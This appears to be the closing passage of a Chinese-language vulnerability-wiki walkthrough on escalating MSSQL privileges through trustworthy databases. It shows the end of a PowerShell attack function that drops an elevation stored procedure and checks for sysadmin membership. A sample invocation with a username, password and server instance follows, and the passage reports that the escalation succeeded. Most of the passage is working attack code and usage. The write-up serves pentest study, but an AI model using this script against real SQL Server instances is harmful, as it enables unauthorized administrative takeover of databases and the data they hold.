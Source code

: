         # Remove stored procedure
            $conn.Open()
            $QueryElevate = "drop proc sp_elevate_me"
        $cmd = New-Object System.Data.SqlClient.SqlCommand($QueryElevate,$conn)
        $results = $cmd.ExecuteReader() 
            $conn.Close() 

        # Verify that privilege escalation works
            If (-Not ($newuser -and $newPass)){
                $conn.Open()
                $QueryElevate = "select is_srvrolemember('sysadmin') as IsSysAdmin"
                $cmd = New-Object System.Data.SqlClient.SqlCommand($QueryElevate,$conn)
                $results = $cmd.ExecuteReader() 
                $CheckforSysadmin.Load($results) 
                $conn.Close() 

                $CheckforSysadmin | Select-Object -First 1 IsSysAdmin | foreach {

                    $Checksysadmin2 = $_.IsSysAdmin
                    if ($Checksysadmin2 -ne 0){
                        write-host "[*] Success! - $UsertoElevate is now a sysadmin." -foreground "green" 
                    }else{
                        write-host "[*] Sorry, something failed, no sysadmin for you." -foreground "red"
                    }
                }    
             }       
        }else{
             write-host "[*] Sorry, $ConnectUser doesn't have the db_owner role in any of the sysadmin databases." -foreground "red" 
        }
        
        write-host "[*] All done." 
    }

首先我们先把sysadmin的权限取消掉，这里可以自行取消掉，但是要添加就会报错

![15.png](/Users/aresx/Documents/VulWiki/.resource/Mssql受信用数据库提权/media/rId46.png)

    Invoke-SqlServer-Escalate-DbOwner -SqlUser MyAppUser01 -SqlPass MyPassword! -SqlServerInstance WIN-80LVKKRM5UA

![16.png](/Users/aresx/Documents/VulWiki/.resource/Mssql受信用数据库提权/media/rId47.png)

成功提权！！

参考链接
--------

> https://xz.aliyun.com/t/8188
